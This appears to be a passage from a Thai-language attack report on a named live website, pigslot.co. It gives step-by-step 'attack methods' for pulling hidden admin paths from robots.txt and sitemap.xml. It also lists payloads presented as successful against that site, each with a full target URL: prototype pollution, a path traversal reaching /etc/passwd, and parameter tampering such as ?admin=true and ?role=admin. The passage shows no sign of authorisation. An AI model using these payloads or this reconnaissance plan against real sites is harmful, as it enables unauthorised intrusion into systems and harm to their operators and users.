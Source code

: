 #### **🔥 Endpoint 2: /robots.txt**
```http
URL: https://pigslot.co/robots.txt
Status: 200 OK
Indicators: admin, login, auth
Content: เผย admin paths ที่ซ่อนอยู่
```

**วิธีการโจมตี:**
1. ดาวน์โหลด robots.txt
2. สกัด admin paths ที่ซ่อนไว้
3. ทดสอบเข้าถึง hidden admin endpoints

#### **🔥 Endpoint 3: /sitemap.xml**
```http
URL: https://pigslot.co/sitemap.xml
Status: 200 OK
Indicators: login
Content: แสดงโครงสร้าง URLs ทั้งหมด
```

**วิธีการโจมตี:**
1. วิเคราะห์ sitemap เพื่อหา hidden URLs
2. ทดสอบเข้าถึง URLs ที่น่าสนใจ

---

### **3. 🧪 CLIENT-SIDE ATTACK VECTORS - ระดับ MEDIUM**

#### **🚨 Reflected Parameter Injection**

**ช่องโหว่ที่พบ:**
```javascript
// Payload ที่สำเร็จ:
constructor.prototype.polluted=true
../../../etc/passwd
?admin=true
?debug=1
?isAdmin=1
?role=admin
```

**วิธีการโจมตี:**
1. **Prototype Pollution Testing:**
   ```
   URL: https://pigslot.co/?test=constructor.prototype.polluted=true
   ผลลัพธ์: payload reflected ใน response
   ```

2. **Path Traversal Testing:**
   ```
   URL: https://pigslot.co/?test=../../../etc/passwd
   ผลลัพธ์: payload reflected ใน response
   ```
